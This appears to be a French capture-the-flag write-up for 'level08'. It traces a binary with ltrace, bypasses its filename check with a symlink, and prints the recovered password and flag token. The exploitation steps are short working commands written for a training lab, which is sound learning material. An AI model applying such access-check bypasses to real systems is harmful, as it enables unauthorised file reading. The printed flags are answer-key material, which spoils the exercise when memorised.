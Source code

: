 On trouve dans le dossier home un file token, dont nous ne pouvons lire le contenu et un binaire ./level08 qui, si on le lance nous affiche un message:
<pre><code>> ./level08
./level08 [file to read]
> ./level08 token
You may not access 'token'
</code></pre>

On cherche a savoir ce que le binaire fait, pour cela on utilise ltrace:
<pre><code>> ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")= "token"
printf("You may not access '%s'\n", "token"You may not access 'token')= 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
</code></pre>
> On observe le <code>strstr("token", "token")= "token"</code> qui veut dire que nous ne pouvons pas lire le fichier quand ce dernier s'appelle token

Donc on creer un lien symbolique avec un nom different afin de contourner la verification:
<pre><code>> ln -s `pwd`/token /tmp/mdp
./level08 /tmp/mdp
quif5eloekouj29ke0vouxean
</code></pre>

On test le mot de passe :
<pre>
<code>> su flag08</code>
<code>Password: quif5eloekouj29ke0vouxean</code>
</pre>

On obtient la phrase magique **Don't forget to launch getflag !**

<pre>
<code>> getflag</code>
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
</pre>
